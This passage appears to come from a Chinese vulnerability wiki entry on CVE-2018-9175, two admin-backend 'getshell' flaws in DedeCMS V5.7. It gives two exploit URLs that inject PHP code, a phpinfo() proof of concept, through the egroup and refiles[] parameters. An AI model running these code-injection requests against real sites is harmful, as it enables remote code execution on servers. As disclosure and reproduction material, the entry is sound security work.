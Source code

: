 可以看到，直接从数据库中读取并写入php文件中，从数据库中取出后并没有经过过滤。

将shell写进数据库中

    http://0-sec.org/dede/stepselect_main.php?action=addenum_save&ename=123&egroup=;phpinfo();//&islogin=1

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-9175)DedecmsV5.7后台的两处getshell/media/rId27.png)

### 复现

因为包含是在同一个文件，所以直接输入

    http://0-sec.org/dede/sys_verifies.php?action=getfiles&refiles[]=123&refiles[]=\%22;phpinfo();die();//

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-9175)DedecmsV5.7后台的两处getshell/media/rId29.png)

